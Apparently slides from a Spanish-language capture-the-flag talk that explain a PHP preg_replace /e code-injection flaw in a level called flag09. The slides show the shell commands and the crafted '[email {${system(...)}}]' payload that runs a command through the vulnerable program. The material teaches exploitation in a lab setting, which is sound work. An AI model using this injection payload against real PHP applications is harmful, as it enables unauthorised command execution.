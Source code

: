 Filename es tratado como un nombre de archivo y su contenido es almacenado en la variable content.

Luego el contenido es procesado por un reemplazador de expresiones regulares, el cual tiene una característica interesante en el primer argumento. Posterior al ultimo '/' tenemos una pequeña 'e'. Si revisamos la documentación, encontraremos rápidamente que php procesara el buffer sobre el patrón como si fuera código de php, lo cual nos abre la puerta a insertar cosas en el atributo de "email", las cuales serán procesadas como instrucciones de php.

----


```
$ printf "[email hola@miau.com]" > prueba.txt
$ ./flag09 prueba.txt use_me
```

Así seria su comportamiento normal, pero si modificamos el contenido de prueba.txt:

```
$ printf "[email $phpinfo()]" > prueba.txt
$ ./flag09 prueba.txt use_me
```

mmm no.

----


Probemos nuevamente pero ahora usando **use\_me**.:

```
$ printf "[email {${system($use_me)}}]" > prueba.txt
$ ./flag09 prueba.txt getflag
```

---


# Muchas gracias por asistir
## ¿Preguntas?
---


## Level10

----


## Solution

---


## Level11
